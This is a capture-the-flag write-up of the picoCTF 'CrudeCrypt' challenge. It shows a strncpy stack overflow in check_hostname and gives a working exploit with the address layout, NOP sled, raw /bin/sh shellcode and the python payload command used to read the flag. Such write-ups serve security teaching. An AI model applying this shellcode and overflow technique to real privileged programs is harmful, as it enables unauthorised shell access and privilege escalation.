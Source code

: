**Name**: CrudeCrypt  
**Points**: 180  
**Type**: Binary Exploitation  
**Description**:  
Without proper maintainers, development of [Truecrypt](http://truecrypt.sourceforge.net/) has stopped! CrudeCrypt has emerged as a notable alternative in the open source community. The author has promised it is 'secure' but we know better than that. Take a look at the [code](https://picoctf.com/problem-static/binary/CrudeCrypt/crude_crypt.c) and read the contents of `flag.txt` from the server! The problem is at `/home/crudecrypt/crude_crypt` on the shell server.  
**Hint**:  
You can never trust user input!  
**Files**: crude_crypt.c

*****
# Code review

Here is what the relevant functions do:

##### main
- check if there are 3 arguments
- check if 1st argument is "encrypt" or "decrypt", and assign action function pointer
- if encrypt, setegid()
- open 2nd and 3rd argument as files
- read out file_password from stdin (max 128 bytes; possibly not null terminated)
- digest = MD5(password)
- call action(infile, outfile, digest)
- cleanup + exit

##### decrypt_file
- get file size of infile (using fstats)
- calloc buffer of that size
- copy contents of infile to buffer
- try decrypt_buffer (this function should work as intended)  
  - if fail, return
- create file_header based on decrypted data; we can put whatever we want in the header!
- check if magic number is correct  
  - if not, return
- call check_hostname  
  - print error message if it doesn't match
- write_size = MIN(header->file_size, infile size - header size); possible signed/unsigned bug!
- write decrypted data to outfile

##### check_hostname
- unsafe strncpy from header->host to stack buffer of size 32
- call safe_gethostname
- return after calling strcmp

```C
bool check_hostname(file_header* header) {
    char saved_host[HOST_LEN], current_host[HOST_LEN];
    strncpy(saved_host, header->host, strlen(header->host));
    safe_gethostname(current_host, HOST_LEN);
    return strcmp(saved_host, current_host) == 0;
}
```

*****
# Exploitation

The bug we are going to exploit is in the function check_hostname. The strncpy is used unsafely, because it is being told to copy the contents from src to dest (for the length of **src**). A safe usage would copy the contents from src to dest (for the length of **dest**)! Using strncpy in this way is the same as using strcpy, which is unsafe if src is provided by the user. By copying a src string that is larger than dest, we can cause a stack overflow which we can use to overwrite eip.

We can exploit this, because after the decryption of the infile, the header is created based on the decrypted data without any checks. This means we control whatever is in the header struct. This includes host, which is usally a 32-byte, null-terminated string. By removing the null bytes at the end, we can increase the length of the host string to cause the stack overflow.

In order to verify if this bug works, we will try to encrypt a file full of "a"s, but right before the call to encrypt the data, we will tamper with the header. This will result in an encrypted file that will result in a SEGFAULT when decrypted. I will use password "a", but it doesn't really matter.

##### Testing the exploit:
```
$ cp -r /home/crudecrypt/ /tmp/delilled
$ cd /tmp/delilled/crudecrypt
$ python -c 'print "a"*100' > a_file
$ <use gdb to read a_file, overwrite any null characters in host, and store the result in enc_file>
$ ulimit -c unlimited
$ ./crude_crypt decrypt enc_file dec_file
-> File password: a
Segmentation fault (core dumped)
$ gdb -q crude_crypt core 
Program terminated with signal SIGSEGV, Segmentation fault.
#0  0x61616161 in ?? ()
```

Ok, so we know we have control of eip and the stack. After checking that the stack is executable ($ readelf crude_crypt -a | grep GNU_STACK), which it is, we will place nop slide + shellcode in our input and overwrite eip with the address of the middle of the nop slide.

Using gdb, we can determine that the host variable is located at `0xffffd5c0` and the return address is located at `0xffffd60c`. If we provide a reasonable nop sled (32 bytes), this should bring the address of the middle of the nop sled to `0xffffd64c`. It doesn't really matter what we use to fill the host variable before encryption, as long as there are no string terminators (I will be using "a"s). For fault tolerance, I will also be repeating the sled address 8 times, because teh return address is located 4 bytes from where the data starts.

##### The structure of the exploit data will be:
`(sled address)*8 + (\x90)*128 + shellcode`

##### Shellcode:
`\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80`

##### Executing the exploit:
```bash
$ python -c 'print "\x4c\xd6\xff\xff"*8 + "\x90"*128 + "\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"' > exploit_data
$ <use gdb to read exploit_data, overwrite any null characters in host, and store the result in exp_file>
$ cd /home/crude_crypt
$ ./crude_crypt decrypt /tmp/delilled/crudecrypt/exp_file /tmp/delilled/crudecrypt/dec_file
-> File password: a
$ cat flag.txt
writing_software_is_hard
```

If you're having trouble with landing on the nop sled, you can push it around by changing the arguments. Since the 3rd argument (outfile) doesn't matter, as long as it can be opened, you could try playing with this. Alternatively, you could create a bigger nop sled. I just got lucked that it worked right away, but I had trouble running it my tmp directory.

*****

REFERENCES:
- [stat struct](http://codewiki.wikidot.com/c:struct-stat)
- [fstat](http://linux.die.net/man/2/fstat)
- [mcrypt library](http://mcrypt.hellug.gr/lib/mcrypt.3.html)
